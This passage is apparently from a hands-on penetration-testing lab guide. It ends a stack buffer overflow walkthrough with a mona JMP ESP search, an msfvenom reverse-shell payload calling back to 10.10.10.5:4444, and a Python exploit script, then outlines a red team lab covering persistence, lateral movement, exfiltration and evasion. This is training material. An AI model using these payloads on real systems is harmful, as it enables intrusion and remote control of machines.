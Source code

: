 5. **Find JMP ESP**:

```bash
# Using mona in Immunity Debugger
!mona jmp -r esp -cpb "\x00\x0a\x0d"
```

6. **Generate Shellcode**:

```bash
msfvenom -p linux/x86/shell_reverse_tcp \
  LHOST=10.10.10.5 LPORT=4444 \
  -b '\x00\x0a\x0d' \
  -f python
```

7. **Final Exploit**:

```python
#!/usr/bin/env python3
import struct

buffer = b"A" * 76                    # Padding to EIP
buffer += struct.pack("<I", 0x080414c3) # JMP ESP address
buffer += b"\x90" * 16                # NOP sled
buffer += shellcode                   # Reverse shell

print(buffer)
```

---

### 🎯 Lab 21: Red Team Operation

**Duration**: 480 minutes (2 days)  
**Objective**: Full red team engagement  
**Skills**: All pentesting skills, stealth, persistence

```bash
synos-lab start "Red Team Operation"
```

**Scenario**: You're a red team. Compromise the target organization and maintain access for 48 hours without detection.

**Objectives**:

-   [ ] Gain initial foothold
-   [ ] Establish persistence
-   [ ] Escalate privileges
-   [ ] Move laterally
-   [ ] Exfiltrate sensitive data
-   [ ] Evade detection (blue team is active!)
-   [ ] Document TTPs

**Rules of Engagement**:

-   No DoS attacks
-   No data destruction
-   Stay within scope
-   Report critical findings immediately

---
